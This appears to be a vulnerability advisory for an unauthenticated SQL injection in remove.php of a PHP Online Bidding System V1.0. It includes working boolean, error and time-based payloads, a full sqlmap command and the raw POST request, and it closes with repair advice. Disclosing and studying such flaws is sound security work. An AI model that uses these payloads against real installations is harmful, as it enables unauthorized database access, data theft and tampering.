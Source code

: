 # ONLINE BIDDING SYSTEM Project V1.0 remove.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'remove.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "remove.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 4237=(SELECT (CASE WHEN (4237=4237) THEN 4237 ELSE (SELECT 5417 UNION SELECT 1249) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706b6271,(SELECT (ELT(6564=6564,1))),0x7162627171),6564)-- FIiT
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1' OR (SELECT 9221 FROM (SELECT(SLEEP(5)))XmQF)-- oabl
    Vector: OR (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914142014214](img/image-20250914142014214.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/remove.php HTTP/1.1
Host: 10.151.167.210:8886
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.151.167.210:8886
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.210:8886/administrator/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive

id=1*
```

# Attack results

![image-20250914142034104](img/image-20250914142034104.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.